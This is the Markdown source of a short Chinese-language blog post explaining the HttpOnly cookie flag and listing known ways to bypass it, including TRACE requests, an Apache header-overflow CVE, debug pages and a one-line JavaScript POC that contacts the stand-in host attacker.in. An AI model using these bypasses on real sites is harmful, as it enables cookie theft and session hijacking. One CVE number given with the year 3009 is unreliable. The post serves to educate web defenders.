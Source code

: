 ```yaml
---
layout: post
title: "HttpOnly的那些事"
description: "HttpOnly的来源，发展和弱点"
category: web
tags: ["websecurity","xss"]
published: true
comments: true
date: 2013-03-24 20:55:47 +0800
---
```

{% include JB/setup %}

### HttpOnly简介
故名思议，`HttpOnly`是指仅在`HTTP`层面上传输的`Cookie`，当设置了`HttpOnly`标志后，客户端脚本就无法读写该`Cookie`，这样能有效的防御`XSS`攻击。`HttpOnly`是由微软在`2002`年首先在`Internet Explorer 6 SP1`上实现。根据微软的[描述](http://msdn2.microsoft.com/en-us/library/ms533046.aspx)，`HttpOnly`是`HTTP Set-Cookie`头中的一个附加标志，下面的例子就是一个头信息中设置了`HttpOnly Cookie`。

    Set-Cookie: USER=123; expires=Wednesday, 09-Nov-99 23:12:40 GMT; HttpOnly

目前，基本上所有的浏览器和web框架都支持`HttpOnly`。

<!--more-->

### 得到HttpOnly Cookie
##### phpinfo信息
`phpinfo`页面可以包含了`cookie`信息，其中同样存在`HttpOnly Cookie`，如下图。
![phpinfo()信息]({{ site.static_url }}/pic/2013-03-25-01.png)
##### 支持TRACE方法的服务器
`Apache`支持的一个`Header`是`TRACE`，`TRACE`一般是用于调试，他会将请求头作为`HTTP Response Body`返回。利用这个特性，可以把`HttpOnly Cookie`读出来。不过目前各厂商已经禁止通过`Ajax`发送`TRACE`请求。
##### CVE-2012-0053
`Apache 2.2.x`多个版本没有严格限制`HTTP`请求头信息，`HTTP`请求头信息超过`LimitRequestFieldSize`长度时，服务器返回`400`错误，并在返回信息中将出错的请求头内容输出。利用这个特性，可以得到`HttpOnly Cookie`。
##### Django等一些web框架的调试页面
开启了调试模式的一些框架，会将程序的信息输出，其中就有`Cookie`信息。
##### CVE-3009-0357
`Firefox <= 1.9.1`在处理`HttpOnly Cookies`时存在bug，通过`getResponseHeader()`得不到`HttpOnly Cookie`，但是通过`getAllResponseHeaders()`可以得到。
##### Java getHeaderField
POC:

```javascript
    alert(new java.net.URL('http://attacker.in/xss/cookie.php').openConnection().getHeaderField('set-cookie'));
```

### 参考
1. [https://www.owasp.org/index.php/HttpOnly](https://www.owasp.org/index.php/HttpOnly)
2. [http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html](http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html)
3. [https://bugzilla.redhat.com/show_bug.cgi?id=785069](https://bugzilla.redhat.com/show_bug.cgi?id=785069)
4. [https://bugzilla.mozilla.org/show_bug.cgi?id=380418](https://bugzilla.mozilla.org/show_bug.cgi?id=380418)
